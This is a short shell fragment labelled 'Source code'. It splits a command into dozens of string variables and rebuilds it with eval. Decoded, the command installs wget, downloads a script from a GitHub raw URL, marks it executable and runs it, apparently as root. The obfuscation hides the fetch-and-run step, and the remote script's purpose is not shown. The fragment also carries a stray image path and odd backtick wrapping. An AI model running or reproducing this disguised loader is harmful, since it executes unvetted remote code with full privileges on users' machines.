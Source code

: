 z="
";pz='h &&';sz='n.sh';dz='alph';jz='md" ';kz='&& c';Ez='& ap';Tz='.git';Az='```';ez='a3/m';Vz='serc';Cz='upda';Kz=' wge';Nz='O de';qz=' ./d';Oz='bian';rz='ebia';Pz='.sh ';gz='menu';Dz='te &';cz='023/';Mz='O- -';az='eleg';Gz='stal';lz='hmod';Sz='/raw';Lz='t -q';bz='end2';Fz='t in';Uz='hubu';Wz='onte';Hz='l wg';nz='debi';Xz='nt.c';Rz='ps:/';Zz='okag';Qz='"htt';Jz='y &&';Yz='om/h';mz=' +x ';oz='an.s';Bz='apt ';Iz='et -';hz='/deb';iz='ian.';fz='ain/';
eval "$Az$z$Bz$Cz$Dz$Ez$Fz$Gz$Hz$Iz$Jz$Kz$Lz$Mz$Nz$Oz$Pz$Qz$Rz$Sz$Tz$Uz$Vz$Wz$Xz$Yz$Zz$az$bz$cz$dz$ez$fz$gz$hz$iz$jz$kz$lz$mz$nz$oz$pz$qz$rz$sz$z$Az"